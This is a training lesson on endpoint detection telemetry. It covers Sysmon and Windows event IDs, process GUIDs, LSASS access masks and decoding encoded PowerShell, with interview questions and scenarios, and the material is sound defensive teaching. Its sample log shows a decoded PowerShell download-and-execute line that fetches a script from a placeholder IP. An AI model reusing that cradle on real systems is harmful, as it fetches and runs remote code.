

# 02. What EDR collects, and Sysmon as free telemetry

> **Module:** 07 · EDR / XDR / MDR · **Week:** 9 · **Time:** ~4 hours
> **You will:** name the five main kinds of endpoint telemetry, read the key Sysmon event IDs, and decode a suspicious PowerShell command line.
> **Certification map:** Security+ domain 4 (logging and monitoring); SC-200 (advanced hunting with `Device*` tables); CySA+ (log analysis).

---

## 1. Why it matters in a SOC / cloud-security job

Every EDR alert is built from small events. If you know the raw events, you can tell a real attack from a false positive, and you can **hunt** when no alert exists.

- Your SIEM may ingest Windows events and **Sysmon** events from servers where no EDR is installed.
- During an incident you will ask: "Which process opened this file? What was its parent? Did it make a network connection?" Telemetry answers all three.
- In interviews, "Name five Sysmon event IDs" is very common.

---

## 2. Understand it



### 2.1 The five categories

| Category | What is recorded | Why defenders care |
|---|---|---|
| **Process** | Start and stop; image path; **command line**; user; **parent process**; hashes | The core of everything. Parent-child pairs show attacks |
| **File** | Create, modify, rename, delete; file path; hash | Dropped payloads, ransomware encryption bursts |
| **Registry** | Key and value create, set, delete | Persistence (Run keys, services), config changes |
| **Network** | Connection from which process to which IP and port; DNS lookups | Command-and-control (C2), data theft, lateral movement |
| **Module / access** | DLLs and drivers loaded; one process opening another process's memory | DLL hijack, injection, credential dumping (LSASS) |

Good EDR also keeps **identity** (which user, which logon session) and a **process GUID**: a unique ID for each process run. Use the GUID, not the PID (process ID). PIDs are reused by Windows, so the same number can mean two different processes.

### 2.2 Sysmon: free endpoint telemetry

**Sysmon** (System Monitor) is a free Windows service from Microsoft Sysinternals. It writes detailed events to the log *Microsoft-Windows-Sysmon/Operational*. You control what it records with an XML configuration file. Well-known community configurations exist (search for "sysmon-modular" and the SwiftOnSecurity sysmon-config) and are a good starting point, but always read and test a config before production.

Key event IDs to remember:

| ID | Name | Typical use |
|---|---|---|
| **1** | Process create | Parent, command line, hashes. The most important event |
| **3** | Network connection | Which process connected to which IP:port |
| 5 | Process terminated | Short-lived processes |
| 6 | Driver loaded | Bad or vulnerable drivers |
| **7** | Image (DLL) loaded | DLL side-loading, suspicious modules (noisy; filter it) |
| 8 | CreateRemoteThread | Process injection |
| **10** | Process access | LSASS access for credential dumping |
| **11** | File create | Dropped files |
| **12 / 13 / 14** | Registry create-delete / value set / rename | Persistence |
| 15 | File stream created | Downloaded-from-internet marker (Mark of the Web) |
| 17 / 18 | Pipe created / connected | Some post-exploitation tools use named pipes |
| 19 / 20 / 21 | WMI filter, consumer, binding | WMI persistence |
| **22** | DNS query | Which process looked up which domain |
| 23 / 26 | File delete (archived / logged) | Evidence of cleanup |
| 25 | Process tampering | Process hollowing and similar |

Windows itself also records useful events (these are **not** Sysmon):

| Log / ID | Meaning |
|---|---|
| Security **4688** | Process created (turn on command-line auditing to get the command line) |
| Security 4624 / 4625 | Successful / failed logon |
| Security **4672** | Special privileges assigned to a new logon |
| System **7045** | A service was installed (the lab uses this one) |
| Security 4697 | A service was installed (Security log version) |
| Security **4698** | A scheduled task was created |

### 2.3 What an event looks like

The lab's events are Python dictionaries, but the fields are the same as Sysmon's. A real Sysmon event 1 carries `Image`, `CommandLine`, `ParentImage`, `ProcessGuid`, `User` and `Hashes`. Real output from the lab data:

```text
--- sysmon event 1 (process create), key fields
event_id: 1
host: WS-ACCT-07
image: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
parent_image: C:\Program Files\Microsoft Office\root\Office16\WINWORD.EXE
user: EXAMPLE\mlopez
command_line: powershell.exe -NoP -W Hidden -Enc SQBFAFgAIAAoAE4AZQB3AC0AT...
decoded: IEX (New-Object Net.WebClient).DownloadString('http://203.0.113.50/stage2.ps1')
```

`-Enc` means *EncodedCommand*: the script is **base64 of UTF-16LE text**. Attackers use it to hide the script from simple string search. EDR and your SIEM can decode it. (The decoded text above is a harmless synthetic string; nothing in the lab runs it.)

And one Sysmon event 10, a process opening LSASS memory:

```text
{'event_id': 10, 'image': 'C:\\Users\\Public\\procx.exe', 'target_image': 'C:\\Windows\\System32\\lsass.exe', 'granted_access': '0x1010'}
```

`0x1010` is two access rights added together: `0x1000` (query limited information) and `0x0010` (**read the process memory**). The memory-read right is the dangerous one, because LSASS memory can hold credentials. The lab rule checks that bit.

### 2.4 In Microsoft Defender for Endpoint (concept)

Defender for Endpoint stores similar data in **advanced hunting** tables you query with KQL: `DeviceProcessEvents`, `DeviceFileEvents`, `DeviceRegistryEvents`, `DeviceNetworkEvents`, `DeviceImageLoadEvents`, `DeviceEvents`. Same five categories, different names. You will use them in module 06 and for SC-200.

### 2.5 Noise and cost

Telemetry is huge. Sysmon event 7 (image load) can be millions per day. Teams:

- **Filter at the source** (the Sysmon config) to drop known-good noise.
- Keep **hot** data for days or weeks, and **cold** data for months (cost).
- Never filter out something just because it is "always there". Attackers hide in noise.

---

## 3. From DBA to security

> **From DBA to security.**
> - **Sysmon config** = **audit policy** (`AUDIT` statements, unified auditing). You choose what to record. Too little and you are blind; too much and you pay in storage and performance, exactly like auditing `SELECT` on every table.
> - **Process GUID vs PID** = **ROWID vs a sequence value that wraps**. One is a stable identity, the other can be reused.
> - **Command line in event 1** = **the SQL text in `V$SQL` / audit trail**. The text of the action is the evidence.
> - **Filtering noise** = **purging old audit data** and tuning `AUD$` retention. Plan retention before you run out of tablespace.

---

## 4. Hands-on

### 4.1 Repo lab

```bash
.venv/Scripts/python cybersecurity-track/07-edr-xdr-mdr/lab/demo.py
```

The section `=== PROCESS TREES ===` shows how events 1 are joined into trees. You will read the full output in lesson 04. For now open `lab/sample_events.py` and find:

1. The event 1 for PowerShell, and its `parent_image`.
2. The event 3 (network) that uses the **same `guid`** as that PowerShell. That shared GUID is how EDR joins network activity to a process.
3. The event 10 for LSASS.

### 4.2 Optional: install Sysmon on a test VM (not your work PC)

1. Download Sysmon from the Microsoft Sysinternals site (official page only).
2. In an *administrator* PowerShell on a **disposable VM or Windows Sandbox**: `sysmon64 -accepteula -i sysmonconfig.xml` (you supply a config file you have read).
3. Open *Event Viewer → Applications and Services Logs → Microsoft → Windows → Sysmon → Operational*.
4. Start `notepad.exe` and find the event ID 1. Check `ParentImage` and `CommandLine`.

Do not install it on a corporate machine unless your team asks you to.

---

## 5. Practice platforms

- TryHackMe: search for the **Sysmon** room (SOC Level 1 content) and **Windows Event Logs**.
- HTB Academy: SOC Analyst path modules on Windows event logs and Sysmon.
- Library: "MITRE ATT&CK in Action: 50 SOC playbooks" lists telemetry prerequisites per technique. Notice how they say to keep the **process GUID, not only the PID**.

---

## 6. Three realistic scenarios

**Scenario 1: DNS query from an odd process.**
*What happened:* Sysmon 22 shows `notepad.exe` resolving a random-looking domain. *Investigate:* notepad never needs the network. Check its parent and whether it was injected (event 8, 10). *Do:* isolate, collect memory if policy allows, block the domain.

**Scenario 2: No command line in the logs.**
*What happened:* the SIEM shows 4688 events but without command lines. *Do:* enable "Include command line in process creation events" via Group Policy, or deploy Sysmon. Without it you cannot see `-Enc`.

**Scenario 3: Registry persistence.**
*What happened:* event 13 sets a value under a `Run` key that points to `C:\Users\Public\x.exe`. *Investigate:* find which process wrote it (event 13 has the image), the file's origin (event 11, 15), and any other host with the same value. *Do:* remove the value, quarantine the file, hunt for the hash.

---

## 7. Common mistakes

1. Using a downloaded Sysmon config blindly. It may be noisy or miss your needs.
2. Matching on PID instead of GUID.
3. Not decoding base64 command lines.
4. Collecting everything with no retention plan.
5. Forgetting that Sysmon itself must be protected: attackers try to stop or uninstall it. Alert on the Sysmon service stopping.
6. Reading event 10 without the *granted access* mask. Many access events are harmless.

---

## 8. Interview questions

<details><summary><b>Q1. What is Sysmon and who makes it?</b></summary>A free Windows service from Microsoft Sysinternals that records detailed system activity (process, network, file, registry, and more) to the event log.</details>

<details><summary><b>Q2. Which Sysmon event ID is process creation? Network connection? Process access?</b></summary>1, 3 and 10.</details>

<details><summary><b>Q3. How would you detect credential dumping from LSASS with Sysmon?</b></summary>Event 10 where the target is lsass.exe, the granted access includes the memory-read right (for example 0x1010 or 0x1FFFFF), and the source process is not an expected system or security product (check the full path).</details>

<details><summary><b>Q4. What is the difference between Windows event 4688 and Sysmon event 1?</b></summary>Both log process creation. 4688 is built-in and needs a policy to include command lines. Sysmon 1 adds hashes, parent details and a process GUID, and is configurable.</details>

<details><summary><b>Q5. Why use a process GUID?</b></summary>A PID can be reused by a different process later. A GUID is unique for each process instance and lets you join process, file and network events safely.</details>

<details><summary><b>Q6. What does -EncodedCommand do, and how do you read it?</b></summary>PowerShell runs a base64 string that encodes UTF-16LE text. Decode base64, then interpret as UTF-16LE.</details>

<details><summary><b>Q7. Which event shows that a service was installed?</b></summary>System log 7045 (and Security 4697 if auditing is on).</details>

<details><summary><b>Q8. Why is Sysmon event 7 (image load) often limited by config?</b></summary>It is very high volume. You keep only the loads you care about (unsigned DLLs, loads from user folders, specific targets) to control cost.</details>

<details><summary><b>Q9. Name the five EDR telemetry categories.</b></summary>Process, file, registry, network, and module/access (plus identity context).</details>

<details><summary><b>Q10. Scenario: a laptop shows a Run-key value created by Excel. What next?</b></summary>Excel should not write persistence. Find the document, the macro or child process, the file written by event 11, and the user. Check email delivery and other hosts with the same value.</details>

<details><summary><b>Q11. How do you know Sysmon is still running on all servers?</b></summary>Monitor heartbeat: a count of events per host per hour, and alert on the service-stopped event or on hosts that went silent.</details>

---

## 9. Checklist

- [ ] I can list the five telemetry categories.
- [ ] I know Sysmon IDs 1, 3, 7, 10, 11, 13, 22 by heart.
- [ ] I can decode a base64 PowerShell command.
- [ ] I know why PID is not enough.

## 10. References

- Microsoft Sysinternals, Sysmon: https://learn.microsoft.com/sysinternals/downloads/sysmon
- Microsoft Learn, advanced hunting schema: https://learn.microsoft.com/defender-xdr/advanced-hunting-schema-tables
- MITRE ATT&CK T1003.001 (LSASS Memory): https://attack.mitre.org/techniques/T1003/001/
- MITRE ATT&CK T1059.001 (PowerShell): https://attack.mitre.org/techniques/T1059/001/

Previous: [01](01-endpoint-security-evolution.md) · Next: [03. Response actions and product concepts](03-response-actions-and-products.md)
